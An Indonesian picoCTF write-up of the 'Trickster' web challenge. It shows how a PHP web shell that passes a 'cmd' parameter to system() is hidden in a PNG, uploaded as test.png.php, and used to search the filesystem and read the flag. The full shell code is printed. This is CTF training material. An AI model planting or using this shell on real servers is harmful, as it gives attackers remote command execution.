# Trickster Writeup - picoCTF

**Halo teman-teman!!**  
Ayo lihat bagaimana aku menyelesaikan challenge web exploit **Trickster** di picoCTF ini! Dijamin seru dan penuh kejutan 😎.

---

## 1. Meluncurkan Mesin
Langkah pertama, aku meluncurkan mesinnya terlebih dahulu.


---

## 2. Membuka Website Target
Aku membuka websitenya dan mulai berpikir, "Hmm... kemungkinan besar aku akan mengeksekusi ini dengan **Burp Suite**."



---

## 3. Mengaktifkan Intercept di Burp Suite
Langsung saja aku membuka **Burp Suite** dan menyalakan **Intercept** di browsernya.



---

## 4. Validasi File Gambar
Aku mencoba upload gambar random. Ketika dicek di Burp Suite, ternyata gambarnya valid!

---

## 5. Cek `/robots.txt`
Langkah berikutnya, aku membuka `/robots.txt`. Benar saja, ada petunjuk menarik di sana!



---

## 6. Petunjuk di `instructions.txt`
Petunjuk di `/robots.txt` mengarahkan ke file `instructions.txt` dan folder `/uploads/`. Ketika dibuka, aku menemukan informasi yang lebih detail.



---

## 7. Menemukan Celah Upload
Aku menyadari file PNG yang diunggah bisa disisipkan kode PHP. Setelah mencari skrip di Google, aku menemukan kode ini dari [gist ini](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

---

## 8. Menyisipkan PHP ke File PNG
Seperti yang sudah aku duga, ini bukan sekadar file PNG biasa. Aku menyisipkan kode PHP ke dalam file PNG asli dengan hati-hati agar tetap valid. Hasilnya terlihat seperti ini:



---

## 9. Menyimpan File Sebagai `test.png.php`
Aku mengganti kode tersebut, lalu menyimpannya dengan nama `test.png.php`.



---

## 10. Mengunggah File
Aku membuka browser dan mengunggah file `test.png.php`. Ternyata, langkah ini tidak memerlukan **Burp Suite** sama sekali, dan... alhamdulillah, berhasil!



---

## 11. Eksekusi File di `/uploads`
Selanjutnya, aku mengecek file yang diunggah di `/uploads/test.png.php`, dan yup! Injeksi berhasil dilakukan.



---

## 12. Menemukan File Tersembunyi
Aku menjalankan perintah `find / -name "*.txt"` seperti di terminal. Setelah menggulir ke bawah, aku menemukan file mencurigakan dan mencatat lokasinya.

  


---

## 13. Menemukan Flag
Dengan menggunakan perintah **`cat`**, aku membaca file tersebut dan... BOOOMMM!!! Muncul flagnya! 🎉



---

## **Kesimpulan**
Challenge ini mengajarkan cara eksploitasi upload file, menyisipkan kode PHP, dan teknik mencari file tersembunyi. Ini sangat menyenangkan dan penuh pelajaran berharga. Coba sendiri dan semoga berhasil! 💻
